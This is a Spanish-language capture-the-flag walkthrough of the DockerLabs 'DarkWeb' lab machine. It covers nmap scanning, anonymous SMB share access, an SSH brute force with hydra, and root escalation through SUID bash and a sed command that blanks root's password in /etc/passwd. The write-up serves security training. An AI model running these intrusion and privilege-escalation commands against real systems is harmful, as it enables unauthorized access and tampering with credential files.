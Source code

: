 Hoy realizamos la máquina **DarkWeb** de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil

![DarkWeb](/maquina-darkweb/img/darkweb.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.95 scan initiated Tue Dec 17 14:37:35 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-17 14:37:35 -03 for 18s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-12-17T17:37:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 25855/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 25695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 17 14:37:53 2024 -- 1 IP address (1 host up) scanned in 18.68 seconds
```

Tenemos 3 puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 139: Samba smbd 4`

•`Puerto 445: Samba smbd 4`

y estamos frente a una maquina linux ubuntu.

Empezaremos intentando enumerar el puerto 139 y 445:

```css
netexec smb 172.17.0.2 -u "" -p "" --shares
```

```css
Share           Permissions     Remark
-----           -----------     ------
print$                          Printer Drivers
darkshare       READ            
IPC$                            IPC Service (a3c1d3aceb1b server (Samba, Ubuntu))
```

como vemos, podemos leer el recurso compartido "darkshare" sin necesidad de contraseña ni usuario, por lo que usaremos `smbclient` para entrar y ver que hay:

```css
smbclient //172.17.0.2/darkshare -U "" -N
```

una vez dentro, ejecutamos `ls` y vemos que dentro hay varios archivos:

```css
smb: \> ls
  .                                   D        0  Sat Dec 14 07:24:32 2024
  ..                                  D        0  Sat Dec 14 07:24:32 2024
  drugs.txt                           N      526  Sat Dec 14 07:17:49 2024
  ilegal.txt                          N      204  Sat Dec 14 07:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 07:17:13 2024
  archivesDatabases.txt               N      563  Sat Dec 14 07:16:30 2024
  hackingServices.txt                 N      662  Sat Dec 14 07:18:19 2024

		240591404 blocks of size 1024. 189920392 blocks available
smb: \>
```

viendo que son varios, simplemente ejecutamos `mget *` y ya tendremos todos en nuestro host.

Teniendo todos los archivos, si revisamos el "ilegal.txt", veremos un mensaje en `rot 21` el cual dice lo siguiente:

```css
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Como vemos tenemos una web con `.onion`,  las cuales son dominios especiales que se utilizan en la red Tor para acceder a servicios ocultos y no son accesibles desde navegadores tradicionales (firefox, chrome). Por lo que para continuar, usaremos el navegador `torbrowser` , el cual se instala de la siguiente manera (en archlinux):

```css
sudo pacman -S torbrowser-launcher
```

Una vez instalado, lo abrimos y vamos al link encontrado. Luego de revisar el codigo fuente de todas las paginas, encuentro cosas interesantes en los siguientes:

• `marketplace.html`

• `redroom.html`

en el que `redroom.html` nos da un usuario: dark

y marketplace.html nos da un archivo llamado "passwordsListSecretWorld.txt" el cual parece tener contraseñas.

![MarketPlace](/maquina-darkweb/img/marketplace.png)

![RedRoom](/maquina-darkweb/img/redroom.png)

# Intrusión

Para entrar a la maquina, crearemos una wordlist con el archivo de contraseñas encontrado, y usaremos `hydra` para atacar el puerto 22 con el usuario dark:

```css
hydra -l dark -P wordlist ssh://172.17.0.2 -V
```

![Pass](/maquina-darkweb/img/pass.png)

Teniendo la contraseña, nos conectamos a través de ssh:

```css
ssh dark@172.17.0.2
```

# Escalada de privilegios

### Dark

Ya al entrar a la máquina, noto que `bash` está raro, y probablemente tenga el bit SUID activado, esto por que cuando entramos, no nos sale el típico prompt y nos sale `-bash-5.2$`:

![Bash_SUID](/maquina-darkweb/img/bash.png)

Luego de revisar el bash con `ls -l /bin/bash`, veo que efectivamente tiene el bit SUID activado, ya que entre sus permisos se encuentra una "s". Por lo que para escalar, ejecutaremos lo siguiente:

```css
bash -p
```

luego, ejecutamos lo siguiente para ser root al 100%:

```css
sed -i 's/root:x:/root::/g' /etc/passwd && su
```

## Root

![Root](/maquina-darkweb/img/root.png)

Gracias por leer :)